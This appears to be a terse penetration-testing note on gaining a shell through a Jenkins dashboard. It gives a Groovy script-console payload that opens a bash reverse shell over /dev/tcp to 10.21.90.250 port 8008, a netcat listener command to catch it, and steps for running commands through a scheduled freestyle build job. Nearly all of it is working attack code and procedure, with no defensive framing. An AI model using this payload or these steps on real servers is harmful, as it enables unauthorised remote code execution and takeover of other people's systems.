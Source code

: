 get shell from dashboard
- go to http://127.0.0.1:1337/script
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash", "-c", "exec 5<>/dev/tcp/10.21.90.250/8008; cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
- uses 'bash read line shell' from revshells.com
- catches on listener `nc -lvnp 8008`

can also run commands from dashboard
-  create a job > freestyle project > build triggers tab > Build periodically > in schedule field put * * * * * > add build step > execute shell > cmd /c whoami > save
	- 'build now' to trigger job
	- go to build history # and console output

